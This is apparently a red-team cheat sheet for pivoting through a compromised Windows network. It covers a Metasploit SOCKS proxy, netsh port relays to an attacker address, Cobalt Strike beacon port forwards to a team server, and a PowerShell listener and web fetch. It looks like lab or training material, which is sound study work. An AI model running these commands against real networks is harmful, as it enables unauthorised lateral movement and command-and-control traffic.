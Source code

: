 ###### <font style="color:#00b3ff">Set the proxy in Metasploit</font> 
```
setg Proxies socks4:10.10.5.120:1080
```

###### <font style="color:#00b3ff">PowerShell script to listen on port 4444</font> 
```
$endpoint = New-Object System.Net.IPEndPoint ([System.Net.IPAddress]::Any, 4444)
$listener = New-Object System.Net.Sockets.TcpListener $endpoint
$listener.Start()
Write-Host "Listening on port 4444"
while ($true)
{
	 $client = $listener.AcceptTcpClient()
  	 Write-Host "A client has connected"
  	 $client.Close()
}
```

###### <font style="color:#00b3ff">Create a proxy server</font> 
```
C:\>netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.14.55 connectport=4444 protocol=tcp

C:\>netsh interface portproxy show v4tov4
```

###### <font style="color:#00b3ff">Remove proxy server</font> 
```
C:\>netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```

###### <font style="color:#00b3ff">Connect to a machine with Powershell</font> 
```
PS C:\> Test-NetConnection -ComputerName 10.10.17.71 -Port 4444
```

###### <font style="color:#00b3ff">Create port forwarding with beacon (forward to the Team Server)</font> 
```
beacon> rportfwd 8080 10.10.5.120 80
beacon> run netstat -anp tcp
```

###### <font style="color:#00b3ff">Connect to website with PowerShell</font> 
```
PS C:\> iwr -Uri http://10.10.17.231:8080/a
```

###### <font style="color:#00b3ff">Create port forwarding (forward to the CS client)</font> 
```
beacon> rportfwd_local 8080 127.0.0.1 8080
```
